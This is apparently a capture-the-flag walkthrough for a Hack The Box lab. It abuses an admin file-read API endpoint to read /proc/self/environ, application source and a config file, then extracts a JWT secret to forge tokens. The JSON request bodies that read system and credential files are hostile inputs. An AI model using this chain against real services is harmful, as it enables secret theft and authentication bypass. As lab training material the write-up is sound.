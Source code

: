 use burpsuite to capture `/api/v1/admin/file`  ，construct the request body as this

```bash
{
	"file":"/proc/self/cmdline"
}
```

- `/proc/self/cmdline` 代表当前程序命令行参数（[https://blog.csdn.net/whatday/article/details/108897457](https://blog.csdn.net/whatday/article/details/108897457)）

### `**/proc/self/environ`**

```bash
{
	"file":"/proc/self/environ"
}
```

 

- `/proc/self/environ`  find the program’s envrionment

```bash
APP_MODULE=app.main:app...etc
PWD=/home/htb/uhc
```

### **get the .py source code**

```bash
{
	"file":"/home/htb/uhc/app/main.py"
}
```

### Copy souce code to vim

### read main.py

open vim 

- `:set paste`
- `%s/\\n/\r/g`

When you formatting your python source code,you will find  uder the  `[main.py](http://main.py)` has the line 20 ：`app.core.config import settings`

### read app.core.config

using endpoint `/api/v1/admin/file`  to read configuration file : `[config.py](http://config.py)` 

you will find `JWT_SECRET` 

### using `JWT_SECRET` to generate jwt

then go jwt.io, change the history jwt parsing result.
